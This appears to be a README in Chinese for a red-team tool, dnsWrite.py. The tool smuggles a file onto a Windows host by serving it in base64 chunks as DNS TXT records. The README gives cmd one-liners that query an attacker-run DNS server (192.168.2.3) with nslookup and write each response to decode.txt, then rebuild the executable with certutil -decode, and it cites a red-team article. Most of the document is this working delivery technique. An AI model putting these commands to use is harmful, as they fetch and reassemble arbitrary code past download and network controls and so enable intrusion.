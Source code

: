 # 原理
利用dns的TXT记录，先把要写入的文件base64编码，然后把文件先切割为32kb的数组列表: L1, L2....，再将每个元素切割为长度为254的列表，将此作为txt记录返回。

## 0x1. 文件托管
```bash
python dnsWrite.py <calc.exe>
```

## 0x2. 写入文件
利用域名的Txt解析，从baidu0.com开始解析：`baidu0.com、baidu1.com ...`，客户端输入以下命令，一直到服务端出现数组索引超时为止(IndexError: list index out of range)，表示发送完毕，客户端再利用`certutil -decode decode.txt calc.exe`转码为exe文件:

```cmd
cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu0.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu1.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

...
```

## 0x3. 参考文章
* [远程下载的通用替代方案 ｜ 红队攻防](https://mp.weixin.qq.com/s/Z1zp7klk--uQ1OnzljNESw)
